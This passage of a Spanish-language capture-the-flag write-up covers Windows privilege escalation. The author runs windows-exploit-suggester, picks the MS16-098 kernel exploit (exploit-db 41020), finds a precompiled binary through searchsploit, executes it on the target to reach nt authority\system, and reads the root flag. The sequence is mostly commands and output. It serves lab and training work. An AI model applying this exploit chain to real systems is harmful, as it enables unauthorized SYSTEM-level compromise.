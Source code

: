 Para solucionarlo, me abro el documento en libreoffice y lo exporto al formato XLS. Me voy a centrar en la segunda vulnearabilidad que aparece

```null
python2 windows-exploit-suggester.py -d 2023-02-04-mssb.xls -i systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*] 
```

Lo examino con searchsploit

```null
searchsploit -x 41020

// Source: https://github.com/sensepost/ms16-098/tree/b85b8dfdd20a50fc7bc6c40337b8de99d6c4db80
// Binary: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe
```

En los comentarios comparten el binario compilado. Lo descargo y transfiero a la máquina víctima. Al ejecutarlo me convierte directamente en nt authority\system

```null
C:\Temp>.\41020.exe
.\41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Temp>whoami
whoami
nt authority\system

C:\Temp>
```

Puedo visualizar la segunda flag

```null
C:\Users\Administrator\Desktop>type root.txt
type root.txt
2f7d8272d572789b3ff16da1b537f9c2
```

